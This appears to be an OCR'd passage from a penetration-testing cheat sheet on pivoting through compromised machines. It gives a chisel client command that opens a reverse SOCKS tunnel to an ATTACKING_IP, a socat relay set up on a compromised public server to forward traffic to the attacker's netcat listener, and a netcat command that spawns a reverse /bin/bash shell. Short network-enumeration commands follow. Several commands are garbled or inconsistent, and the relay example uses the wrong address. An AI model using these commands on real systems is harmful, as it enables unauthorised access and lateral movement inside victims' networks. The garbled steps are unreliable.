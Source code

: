 2- on compromised machine

> ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &

3- Now 127.0.0.1:1080 is connected to compromised machine.


## Socat relay

suppose we compomise apublic facing server and now also have ability to execute commands(proxying or port forwarding) on another internal machine. The problem is that the internal machine cannot directly connect back to public internet. So we try to use the first compromised server as a relay to get things done

  1. start a nc listener on our machine
  
  > nc -nvlp 53
  
  2. Now setup a relay in public compromised server . This will act as a medium of communication
  
  > ./socat tcp-l:8000 tcp:OURip:53 &
  
  Here 8000 port is the relay .any traffic thorugh this port will be directed towards us. Usually we have to open up a port on public compomised server so we can use that as a relay medium(In this case we opened port 8000)
  
  3. NOw we have to execute commands on thetarget internal network with port set to the relay port.THis way all traffic is passed to us
  
  4. We can execute a reverse shell on first machine with target ip set to internal ip and port
  
  # Suppose public compomised server is 10.10.10.100.Internal server is 10.10.10.150
  
  following conmmandd will give us reverse shell
  
  > nc 10.10.10.150:8000 -e /bin/bash
  
  5. If we have found another method to execute commands on internal server directly from our machine,we can try to get reverse shell by giving the ip address of compromised public server with relayed port 


# NETWORKING


### local network Info

- ifconfig

- ip a


### All IP's in a subnet

- arp-scan -l
